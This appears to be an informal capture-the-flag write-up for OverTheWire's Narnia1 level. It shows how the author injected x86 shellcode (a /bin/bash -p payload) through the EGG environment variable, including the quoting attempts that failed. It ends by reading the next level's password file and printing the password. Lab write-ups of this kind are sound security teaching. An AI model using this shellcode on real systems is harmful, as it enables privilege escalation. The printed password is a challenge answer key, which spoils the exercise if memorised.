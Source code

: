 # Narnia1 (OverTheWire)

immediately look at the source code and see that it wants us to put something executable in the enviroment variable EGG

use printenv and see that EGG doesn't exist

first tried to set EGG to /bin/bash with EGG='/bin/bash' and export EGG, but program seg faults. 

so it's not executing correctly. let's try some shell code instead

EGG = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

export EGG

still seg faults. turns out it only thinks it's executable if there's a $ in the front.

EGG = $"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

export EGG

still wrong. a last ditch attempt: 

EGG = $'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'

export EGG

it worked! whoami results in narnia2. cd into /etc/narnia_pass and cat narnia2 to the get the narnia2 password: nairiepecu
